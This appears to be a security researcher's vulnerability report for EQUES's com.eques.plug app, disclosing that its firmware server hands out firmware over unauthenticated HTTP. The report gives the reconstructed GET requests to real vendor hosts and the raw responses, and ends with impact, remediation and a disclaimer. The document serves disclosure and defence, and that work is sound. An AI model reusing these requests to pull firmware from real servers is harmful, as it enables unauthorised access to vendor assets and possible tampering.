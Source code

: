 # Vulnerability Report - com.eques.plug- Incorrect Access Control

**Product:** `com.eques.plug`

**Vendor:** [EQUES](http://www.eques.cn/?lang=en)

**Version:** 1.0.1

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.eques.plug` , developed by **EQUES**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTP requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `return` values in the `getBinURL`method provide the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003205648548](https://s2.loli.net/2024/10/03/TmpSEWJGuoiHbQA.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET http://www.ikonke.us/firmware/kit/kit.bin HTTP/1.0
   User-Agent: Fiddler
   Host: www.ikonke.us
   ```

   ```http
   GET http://www.kankunit.com/k2/kk-strip/user2.bin HTTP/1.0
   User-Agent: Fiddler
   Host: www.kankunit.com
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Connection: close
   Content-Length: 3866628
   Accept-Ranges: bytes
   Content-Type: application/octet-stream
   Date: Thu, 03 Oct 2024 13:20:54 GMT
   Etag: "3b0004-53b5894227400"
   Last-Modified: Wed, 31 Aug 2016 06:55:12 GMT
   Server: Apache
   
      OpenWrt                 r45746                                       ,  j G iyni"                               |  
   
   *** FIDDLER: RawDisplay truncated at 128 characters. Right-click to disable truncation. ***
   ```

   ```http
   HTTP/1.1 200 OK
   Connection: close
   Content-Length: 380952
   Accept-Ranges: bytes
   Content-Type: application/octet-stream
   Date: Thu, 03 Oct 2024 13:15:05 GMT
   Etag: "5fbf955c-5d018"
   Last-Modified: Thu, 26 Nov 2020 11:45:32 GMT
   Server: nginx
   
      @  @j    @!     R      > 2                                                                                  
   
   *** FIDDLER: RawDisplay truncated at 128 characters. Right-click to disable truncation. ***
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003212307687](https://s2.loli.net/2024/10/03/LfV9lS2ZYHsCQD8.png)

   In total, we successfully downloaded **6 firmware** by exploiting the vulnerability.

## Impact

An attacker can exploit this vulnerability to:

- Download the latest firmware before it is officially released.
- Analyze the firmware for vulnerabilities or proprietary information.
- Create modified firmware images with malicious code.
- Distribute compromised firmware updates to unsuspecting users.

## Remediation

- Implement proper access control on the firmware server, such as device ID and user ID verification.
- Enhance the app's firmware update mechanism to include authentication credentials in the requests.

## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.